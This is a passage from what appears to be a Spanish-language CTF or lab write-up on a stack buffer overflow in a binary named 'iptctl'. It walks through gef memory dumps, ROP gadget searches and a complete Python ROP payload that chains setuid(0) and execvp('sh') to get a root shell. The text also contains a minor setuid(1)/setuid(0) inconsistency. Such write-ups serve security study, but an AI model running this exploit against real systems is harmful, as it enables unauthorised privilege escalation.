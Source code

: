 ```console
# Si rsp es "aaaeaaaaaaafaaaaaaaga" entre eso y allow esta "aaaaaaaabaaaaaaacaaaaaaadaaaa" (29 caracteres)

gef➤  x/-48wx  $rsp
0x7fffffffddd8:	0x61776f6c	0x61616161	0x2e373231	0x2e302e30 # Nosotros empezamos a escribir como que por aqui
0x7fffffffdde8:	0x63000031	0x61616161	0x64616161	0x61616161

gef➤  x/48wx  $rsp
0x7fffffffddf8:	0x65616161	0x61616161	0x66616161	0x61616161 # A partir de aqui entramos en la pila de la funcion actual
0x7fffffffde08:	0x67616161	0x00000a61	0x00000000	0x00000000
```
Al no haber PIE, las direcciones en la PLT de execvp y setuid están estáticas. Querriamos manipularlas para que salga:
**execvp("bash",0)** y **setuid(1)**
```console
└─$ objdump -D ./iptctl | grep -E "execvp|setuid"
400d13:	e8 48 fa ff ff       	call   400760 <execvp@plt>
400d00:	e8 7b fa ff ff       	call   400780 <setuid@plt>
```
¿Como le pasamos los argumentos a las funciones luego? Como estamos en 64 bits funciona tal que una función lee los argumentos guardados en 
registros en este orden de prioridad -> **rdi rsi rdx r8 y r9**. Esos registros primero hay que abrirlos y luego cargar valores dentro.
```console
└─$ ropper --search "pop rdi" -f ./iptctl  # Para el primer argumento "sh"
0x0000000000400de3: pop rdi; ret; 

└─$ ropper --search "pop rsi" -f ./iptctl # Para el segundo, aunque abra r15, podemos meter "caca" ahi que da igual
0x0000000000400de1: pop rsi; pop r15; ret;

gef➤  grep "sh"
0x40046e - 0x400470  →   "sh" 
```
He creado el exploit en la máquina vicima para evitar problemas y como corre con python (1) he usado las liberias más básicas como struct en vez
de tirar de pwntools. Siempre recomiendo utulizar las herrameintas por defecto y mas simples para poder trabajar en cualquier entorno.

```python
import struct

junk = b"allow" + b"A"*29
pop_rdi = struct.pack('<q',0x400de3)
setuid = struct.pack('<q', 0x400780)
sh = struct.pack('<q',0x40046e)
pop_rsi = struct.pack('<q',0x400de1)
null = struct.pack('<q',0x0)
execvp = struct.pack('<q',0x400760)

payload = junk + pop_rdi + null + setuid + pop_rdi + sh + pop_rsi + null + null + execvp + b"\n127.0.0.1\n"
print(payload)
```
Es decir 
1. Metemos la basura para llegar a donde la pila  
2. Abrimos rdi para meterle un valor nulo a setuid quedando como **setuid(0)** o sea que opere como root.
3. Abrimos rdi para meterle a execvp "sh" pero tambien hay que meterle un segundo argumento nulo, el tema esque pop rsi nos abre otro registro más (r15) así que otro null extra
4. Le metemos la ip junto con dos "\n" que equivalen a darle al boton ENTER.
